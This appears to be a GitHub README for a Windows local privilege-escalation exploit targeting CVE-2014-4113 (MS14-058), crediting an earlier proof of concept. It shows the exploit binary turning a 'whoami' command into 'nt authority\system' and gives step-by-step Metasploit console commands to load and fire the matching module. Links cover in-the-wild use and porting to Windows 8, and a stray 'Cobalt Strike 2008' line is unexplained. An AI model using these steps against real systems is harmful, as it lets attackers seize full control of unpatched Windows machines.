


# MS14-058 

- Trigger and exploit code for CVE-2014-4113
- The poc was from [@sam-b](https://github.com/sam-b/CVE-2014-4113)

Vulnerability reference:
 * [MS14-058](https://technet.microsoft.com/library/security/ms14-058)
 

## Usage
c:\> Win64.exe whoami
nt authority\system

  
Cobalt Strike 2008  

## load the module within the Metasploit console
```
    msf > use exploit/windows/local/ms14_058_track_popup_menu
    msf exploit(ms14_058_track_popup_menu) > show targets
          ...targets...
    msf exploit(ms14_058_track_popup_menu) > set TARGET <target-id>
    msf exploit(ms14_058_track_popup_menu) > show options
          ...show and set options...
    msf exploit(ms14_058_track_popup_menu) > exploit
```

## Links

- [CrowdStrike Discovers Use of 64-bit Zero-Day Privilege Escalation Exploit (CVE-2014-4113) by Hurricane Panda](https://www.crowdstrike.com/blog/crowdstrike-discovers-use-64-bit-zero-day-privilege-escalation-exploit-cve-2014-4113-hurricane-panda/)
- [让CVE-2014-4113成功溢出Win8](http://www.freebuf.com/articles/system/50110.html)